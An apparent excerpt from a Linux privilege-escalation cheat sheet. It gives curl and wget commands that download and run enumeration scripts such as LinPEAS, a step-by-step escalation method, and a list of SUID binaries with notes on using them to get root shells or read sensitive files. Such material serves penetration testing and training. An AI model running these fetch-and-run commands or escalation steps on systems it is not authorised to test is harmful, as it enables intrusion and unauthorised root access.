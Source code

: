 ## Automated Tools (If Available)

```bash
# Download and run LinPEAS
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Download and run LinEnum
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh

# Download and run Linux Smart Enumeration
wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh
chmod +x lse.sh
./lse.sh -l1

# Download and run Linux Exploit Suggester
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh
```

## Step-by-Step Methodology

1. Collect system information (OS, kernel, hardware)
2. Check current user privileges and groups
3. Look for SUID/SGID binaries
4. Check sudo privileges (`sudo -l`)
5. Check for capabilities
6. Examine cron jobs
7. Inspect PATH for opportunities
8. Look for NFS shares with no_root_squash
9. Check for sensitive files with passwords
10. Hunt for world-writable files and directories
11. Look for unusual services or processes
12. If possible, run automated enumeration tools
13. Consider kernel exploits as a last resort

## Common Exploits by Binary

### SUID Binaries to Look For
```
base64      # Read sensitive files
cp          # Copy malicious binaries
find        # Execute commands
bash/dash   # Get shell with elevated privileges
nmap        # Interactive mode or script execution
vim/nano    # Edit files or get shell
less/more   # Read files or get shell
```
